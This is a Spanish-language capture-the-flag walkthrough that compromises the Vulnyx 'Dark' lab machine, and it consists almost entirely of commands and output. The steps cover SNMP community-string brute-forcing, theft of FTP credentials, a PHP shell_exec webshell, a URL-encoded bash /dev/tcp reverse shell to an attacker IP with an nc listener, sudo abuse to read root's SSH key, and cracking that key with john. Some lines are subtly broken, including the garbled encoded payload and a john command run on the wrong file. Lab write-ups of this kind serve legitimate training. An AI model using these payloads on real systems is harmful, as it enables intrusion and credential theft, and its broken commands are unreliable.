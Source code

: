 # Vulnyx-Dark

## Reconocimiento

### Descubrir la IP de la víctima
```bash
arp-scan -I eth0 --localnet
# (IP-victima) 08:00:27:53:f0:2d   PCS Systemtechnik GmbH
```

### Escaneo de puertos
```bash
nmap -p 22,80,8000 -sS -sC -sV -n -Pn (IP-victima) -oN nmap
# 22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1
# 80/tcp   open  http    Apache httpd 2.4.56 (Debian)
# 8000/tcp open  ftp     pyftpdlib 1.5.7
```

### Escaneo UDP
```bash
nmap -sU -p- --min-rate 2000 -sV (IP-victima)
# 161/udp   open   snmp   net-snmp; net-snmp SNMPv3 server
```

## Enumeración SNMP (extraccion clave de comunidad)
```bash
onesixtyone -c /home/kali/wordlists666/common-snmp-community-strings-onesixtyone.txt (IP-victima)
# (IP-victima) [root] Linux dark 5.10.0-23-amd64
```

```bash
snmpwalk -v 2c -c root (IP-victima) | grep usr 
# iso.3.6.1.2.1.25.4.2.1.5.354 = STRING: "-c /usr/bin/python3 -m pyftpdlib -p 8000 -w -d /var/www/html/ -u frank -P my_FTP_is_c00l"
```

## Explotación FTP
```bash
ftp (IP-victima) -p 8000
# usr: frank
# pass: m*_***_**_***l
```

## Subida de Webshell
Subir una webshell PHP (`put webshell.php`) con el siguiente contenido:
```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

## Ejecución de Comandos
Acceder a la webshell desde el navegador:
```bash
http://(IP-victima)/webshell.php?cmd=whoami
# frank
```

## Reverse Shell
Inyectar un reverse shell:
```bash
http://(IP-victima)/webshell.php?cmd=%62%61%73%68%20%2d%63%20%225%62%361%73%68%20%2d%659%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%359%32%2e5%31%363%38%2e%32%30%304%2e%35%2f%34%34%33%20%3033e%26%31%22
```

## Obtener Acceso
```bash
nc -lvnp 443
# Acceso obtenido
```

## Escalada de Privilegios
```bash
script /dev/null -c bash
# (Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Pivoteo de Usuarios
```bash
sudo -l
# (alan) NOPASSWD: /usr/bin/sh
(podemos tirarnos una bash como el usuario alan)
sudo -u alan /usr/bin/sh
whoami
# alan
```

## Escalada de Privilegios a Root
```bash
sudo -l
# (root) NOPASSWD: /usr/bin/most
(Al ejecutarlo vemos que podemos leer archivos como root.)
sudo /usr/bin/most /root/.ssh/id_rsa > /tmp/id_rsa.txt
cat /tmp/id_rsa.txt
# Contenido de id_rsa de root
```

## Acceso SSH como Root
```bash
nano id_rsa
#pegamos contenido de id_rsa root
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa

ssh -i id_rsa root@(IP-victima)
# Contraseña: rootbeer
# Acceso concedido como root
```

Ya somos root :D

